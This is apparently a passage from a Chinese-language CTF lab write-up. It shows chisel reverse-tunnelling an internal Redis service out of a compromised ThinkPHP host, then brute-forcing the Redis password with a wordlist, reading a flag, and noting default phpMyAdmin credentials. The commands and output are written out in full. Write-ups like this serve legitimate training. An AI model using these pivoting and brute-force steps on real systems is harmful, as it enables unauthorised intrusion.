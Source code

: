 成功建立 socks 代理

```bash title="Kali"
2024/07/25 11:45:28 server: session#6: tun: proxy#R:10002=>socks: Listening
```

## Redis 连接数据库

将 `10.85.101.2:6379`Redis 服务转发出来

```bash title="Thinkphp"
(remote) www-data@4c2afff6c232:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 R:0.0.0.0:16379:10.85.101.2:6379
2024/07/25 04:56:13 client: Connecting to ws://192.168.200.129:1331
2024/07/25 04:56:13 client: Connected (Latency 755.012µs)
```

成功建立转发

```bash title="Kali"
2024/07/25 12:56:13 server: session#16: tun: proxy#R:16379=>10.85.101.2:6379: Listening
```

然后使用 [vgo0/redisbrute: Rust based Redis AUTH bruteforcer with support for ACLs](https://github.com/vgo0/redisbrute) 进行爆破

```bash
┌──(randark ㉿ kali)-[~/tools]
└─$ ./redisbrute --ip 127.0.0.1 --port 16379 --passwords /usr/share/wordlists/rockyou.txt
[+] Valid password found - 12345
```

## flag - Redis

爆破的到密码之后，进入数据库

```bash
┌──(randark ㉿ kali)-[~/tools]
└─$ redis-cli -h 127.0.0.1 -p 16379 -a "12345"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:16379> KEYS *
1) "flag"
127.0.0.1:16379> GET flag
"WSS-Studio{Redis-870ed89a-6658-4350-8d17-9f293df5c6b1}"
```

## phpMyAdmin 弱密码

浏览器设置代理，访问 `http://10.85.101.4/`

![img](img/image_20240729-132911.png)

- 数据库地址 `localhost`
- 用户名 `root`
- 密码 `root`
